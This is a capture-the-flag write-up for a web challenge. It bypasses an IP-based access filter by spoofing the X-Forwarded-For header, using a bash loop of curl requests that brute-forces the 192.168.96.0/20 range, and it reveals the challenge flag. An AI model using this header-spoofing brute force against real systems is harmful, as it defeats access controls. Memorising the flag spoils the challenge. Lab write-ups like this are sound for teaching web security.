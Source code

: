 #### Challenge:

Ahoy, officer,

the ship had to lower its speed because of broken `fuel efficiency enhancer`. To order a correct spare part, the chief engineer needs to know exact identification code of the spare part. However, he cannot access the web page listing all the key components in use. Maybe the problem has to do with recently readdressing of the computers in the engine room - the old address plan for whole ship was based on range `192.168.96.0/20`. Your task is to find out the identification code of the broken component.

May you have fair winds and following seas!

The webpage with spare parts listing is available at <a href="http://key-parts-list.cns-jv.tcc" target="_blank">http:&#47;&#47;key-parts-list.cns-jv.tcc<a>.

---

#### Solution:

- standard bypass of IP filter with `X-Forwarded-For` header seems to work on quick try, so all that is needed is brute-force the correct IP from mentioned range

```bash
for o in `seq 96 111`; 
    do for i in `seq 0 255`; 
        do curl http://key-parts-list.cns-jv.tcc/ -H "X-Forwarded-For: 192.168.${o}.${i}" 2>/dev/null | \
            grep -v 'Access denied.' | \
            grep 'FLAG{'; 
    done
done
```

---

<details><summary>FLAG:</summary>

```
FLAG{MN9o-V8Py-mSZV-JkRz}
```

</details>
<br/>

